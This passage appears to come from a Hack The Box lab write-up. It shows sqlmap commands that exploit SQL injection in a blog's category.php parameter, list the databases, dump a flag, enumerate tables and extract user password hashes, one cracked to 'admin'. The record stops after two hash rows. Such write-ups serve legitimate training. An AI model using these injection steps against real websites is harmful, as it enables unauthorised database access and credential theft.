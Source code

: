 Let me test it with `sqlmap` on the following url : `http://172.16.1.12/blog/category.php?id=1`

```bash
┌──(kali㉿kali)-[~/htb/NEW]
└─$ sqlmap "http://172.16.1.12/blog/category.php?id=1" --batch --dbs

<SNIP>
available databases [7]:                                                                    
[*] blog_admin_db
[*] flag
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test


┌──(kali㉿kali)-[~/htb/NEW]
└─$ sqlmap "http://172.16.1.12/blog/category.php?id=1" --batch -D flag -T flag --dump

<SNIP>
+------------------------------+
| flag                         |
+------------------------------+
| DANTE{wHy_y0U_n0_s3cURe?!?!} |
+------------------------------+


┌──(kali㉿kali)-[~/htb/NEW]
└─$ sqlmap "http://172.16.1.12/blog/category.php?id=1" --batch -D blog_admin_db --tables

<SNIP>
Database: blog_admin_db                                                                     
[13 tables]
+-----------------------------+
| banner_posts                |
| blog_categories             |
| blogs                       |
| editors_choice              |
| links                       |
| membership_grouppermissions |
| membership_groups           |
| membership_userpermissions  |
| membership_userrecords      |
| membership_users            |
| page_hits                   |
| titles                      |
| visitor_info                |
+-----------------------------+


┌──(kali㉿kali)-[~/htb/NEW]
└─$ sqlmap "http://172.16.1.12/blog/category.php?id=1" --batch -D blog_admin_db -T membership_users -C 'memberID,passMD5' --dump

<SNIP>
Database: blog_admin_db                                                                     
Table: membership_users
[5 entries]
+----------+------------------------------------------+
| memberID | passMD5                                  |
+----------+------------------------------------------+
| admin    | 21232f297a57a5a743894a0e4a801fc3 (admin) |
| ben      | 442179ad1de9c25593cabf625c0badb7         |
```